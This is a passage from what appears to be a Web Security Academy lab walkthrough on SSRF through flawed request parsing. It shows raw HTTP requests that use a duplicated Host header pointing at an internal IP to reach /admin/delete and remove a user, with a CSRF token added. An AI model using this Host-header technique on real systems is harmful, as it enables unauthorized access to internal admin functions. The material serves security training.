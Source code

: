 ```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos
```

We get the error:

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/12.png)

Let's repeat the process and add the csrf value in the response to the previous GET request ("IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv") - or repeat the GET request to /admin, what you prefer:

```
POST /admin/delete HTTP/2
Host: 192.168.0.113
Host: 0a5100f104ffdc65c3832510004000cf.web-security-academy.net
...

username=carlos&csrf=IJTFhUceFHwKZHdbhX2eW0ayNuKksPhv
```

![img](images/3%20-%20SSRF%20via%20flawed%20request%20parsing/13.png)

We get a 302 redirection:
